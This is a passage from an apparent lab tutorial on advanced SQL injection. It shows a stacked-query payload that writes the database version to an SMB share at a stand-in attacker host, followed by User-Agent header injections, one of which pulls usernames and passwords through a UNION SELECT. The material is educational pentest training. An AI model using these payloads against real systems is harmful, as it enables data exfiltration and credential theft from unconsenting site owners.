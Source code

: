 **Preparing the Payload**

To exploit this vulnerability, the attacker crafts a payload to inject into the `visitor_name` parameter. The payload will be designed to execute an additional SQL query that writes the database version information to an external SMB share.

```php
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

Let's dissect the above payload:

* `1'`: Closes the original string within the SQL query.
* `;`: Ends the first SQL statement.
* `SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';`: Executes a new SQL statement that retrieves the database version and writes it to an SMB share at \ATTACKBOX\_IP\logs\out.txt.
* `--`: Comments the rest of the original SQL query to prevent syntax errors.

To utilize the payload, the attacker would visit the URL that creates a file in an external SMB share.&#x20;

To access the file, use the `ls /tmp` to see the file received in the `/tmp` directory as shown below:&#x20;

```shell-session
thm@machine$ls /tmp
out.txt
```

## Other techniques

***

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

### HTTP Header Injection

![user-agent injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785793)

HTTP headers can carry user input, which might be used in SQL queries on the server side.  If these inputs are not sanitised, it can lead to SQL injection. The technique involves manipulating HTTP headers (like **User-Agent**, **Referer**, or **X-Forwarded-For**) to inject SQL commands. The server might log these headers or use them in SQL queries. For example, a malicious User-Agent header would look like `User-Agent: ' OR 1=1; --`. If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.

In this example, a web application logs the User-Agent header from HTTP requests into a table named logs in the database. The application provides an endpoint at `http://10.10.223.104/httpagent/` that displays all the logged entries from the logs table. When users visit a webpage, their browser sends a User-Agent header, which identifies the browser and operating system. This header is typically used for logging purposes or to tailor content for specific browsers. In our application, this User-Agent header is inserted into the logs table and can then be viewed through the provided endpoint.

Given the endpoint, an attacker might attempt to inject SQL code into the User-Agent header to exploit SQL injection vulnerabilities. For instance, by setting the User-Agent header to a malicious value such as `User-Agent: ' UNION SELECT username, password FROM user; --`, an attacker attempts to inject SQL code that combines the results from the logs table with sensitive data from the user table.
